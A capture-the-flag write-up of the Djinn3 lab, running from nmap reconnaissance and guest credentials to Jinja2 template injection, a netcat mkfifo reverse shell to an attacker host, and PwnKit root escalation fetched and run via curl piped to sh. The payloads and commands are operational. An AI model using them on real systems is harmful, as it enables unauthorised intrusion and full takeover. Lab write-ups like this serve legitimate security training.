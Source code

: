 ```yaml
---
title: "Djinn3"
date: 2024-11-25
draft: false
summary: "Writeup for the Djinn3 proving grounds CTF challenge."
tags: ["linux", "suid", "ssti"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/djinn3/cover.webp"
  caption: "Djinn3 Proving Grounds Challenge"
  alt: "Djinn3 cover"
platform: "Misc"
---
```


**DJinn3** is a CTF challenge on **proving grounds** and requires us to capture 2 flags by hacking into it.
<!--more-->
To access the lab, click on the link given below:
- https://portal.offsec.com/labs/play

## Reconnaissance

I ran an **nmap** aggressive scan on all ports to find information about the target.

```shell
nmap -A -p- TARGET -oN djinn.nmap --min-rate 10000
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 5000     | http        |
| 31337    | unknown     |

![](https://cdn.ziomsec.com/djinn3/1.webp)

![](https://cdn.ziomsec.com/djinn3/2.webp)

## Foothold

The **nmap** scan revealed 4 open ports running different services. I started of with the http server running on port 80 and accessed it on my browser.

![](https://cdn.ziomsec.com/djinn3/3.webp)

I then accessed the server running on port 5000. This page contained hyperlinks and some interesting information about a ticketing system.

![](https://cdn.ziomsec.com/djinn3/4.webp)

I tried accessing port 31337 on the browser but couldn't do so. So I tried accessing it with **nc**. 

![](https://cdn.ziomsec.com/djinn3/5.webp)

```shell
nc TARGET 31337
```

![](https://cdn.ziomsec.com/djinn3/6.webp)

I tried some common credentials like admin, user etc but none of them worked. I read the tickets that were present on port 5000 and found something interesting.

![](https://cdn.ziomsec.com/djinn3/7.webp)

![](https://cdn.ziomsec.com/djinn3/8.webp)

These tickets revealed possible usernames. I tried multiple usernames with common password and ultimately got in using **`guest:guest`**.

![](https://cdn.ziomsec.com/djinn3/9.webp)

This looked like an API that allowed us to work with the tickets that were present on port 5000.

![](https://cdn.ziomsec.com/djinn3/10.webp)

I tried adding a ticket and found it on the server hosted on port 5000.

![](https://cdn.ziomsec.com/djinn3/11.webp)

Even its structure remained the same throughout.

![](https://cdn.ziomsec.com/djinn3/12.webp)

From this, I was able to assume that the api sent the title and description to the backend which was then inserted in a template. Also, the **nmap** scan revealed port 5000 was running **werkzeug** which is a module used with **flask**. **Flask** servers are infamous for being vulnerable to **SSTI** (Server Side Template Injections).

So I added a simple command to check if the application indeed was vulnerable.

```shell
> open
Title: tempinj
Description: {{ 7*7 }}
```

![](https://cdn.ziomsec.com/djinn3/13.webp)

![](https://cdn.ziomsec.com/djinn3/14.webp)

The server executed the command, which confirmed the presence of **SSTI** vulnerability.  Since flask by default uses **jinja2**, I tried a payload specific to that template engine to see if it works.

```shell
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

![](https://cdn.ziomsec.com/djinn3/15.webp)

![](https://cdn.ziomsec.com/djinn3/16.webp)

It worked. So I went to **hacktricks** to look for ways to get RCE and found this payload.

![](https://cdn.ziomsec.com/djinn3/17.webp)

I tried executing the payload first to see if it worked. If it did, I could attempt to get a reverse shell.

```shell
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

![](https://cdn.ziomsec.com/djinn3/18.webp)

![](https://cdn.ziomsec.com/djinn3/19.webp)

The payload was able to execute commands on the server. Hence I used **netcat** **mkfifo** payload to get a reverse shell.

```shell
{{ cycler.__init__.__globals__.os.popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc KALI PORT > /tmp/f').read() }}
```

![](https://cdn.ziomsec.com/djinn3/20.webp)

I opened another ticket with my reverse shell payload and started a listener on another terminal.

![](https://cdn.ziomsec.com/djinn3/21.webp)

Upon visiting the page, I got a reverse shell.

![](https://cdn.ziomsec.com/djinn3/22.webp)

I then found the first flag inside **`/var/www`**.

![](https://cdn.ziomsec.com/djinn3/23.webp)

## Privilege Escalation

I looked for binaries with uncommon suid bit sets and found **pkexec**

```shell
find / -user root -perm -u=s -ls 2>/dev/null
```

![](https://cdn.ziomsec.com/djinn3/24.webp)

When **pkexec** has an **suid bit set**, we can try to escalate our privilege using the PwnKit method. I googled for the exploit and found the github repo.

![](https://cdn.ziomsec.com/djinn3/25.webp)

![](https://cdn.ziomsec.com/djinn3/26.webp)

I downloaded the script on my local machine and then started a python server so that I could transfer it to the target.

```shell
wget "https://raw.githubusercontent.com/ly4k/PwnKit/refs/heads/main/PwnKit.sh"
python3 -m http.server 8080
```

![](https://cdn.ziomsec.com/djinn3/27.webp)

I followed the instructions that were provided on the **github** repo.

![](https://cdn.ziomsec.com/djinn3/28.webp)

```shell
sh -c "$(curl -fsSL http://KALI:8080/PwnKit.sh)"
```

![](https://cdn.ziomsec.com/djinn3/29.webp)

After getting the root shell, I captured the final flag from the **`/root`** directory.

![](https://cdn.ziomsec.com/djinn3/30.webp)

## Closure

Here's a short summary of how I pwned **djinn3**:
- I discovered an **SSTI** vulnerability on the server running on port 5000 and used the api hosted on port 31337 to get a reverse shell.
- I then captured the first flag from the `/var/www` directory.
- I looked for binaries with uncommon **suid bits** and found pkexec.
- I googled for exploits and found the **Pwnkit** repo on github.
- I followed the instructions given in the repo to got root access.
- Finally I captured the root flag from the `/root` directory.

That's it from my side! Until next time :)

---
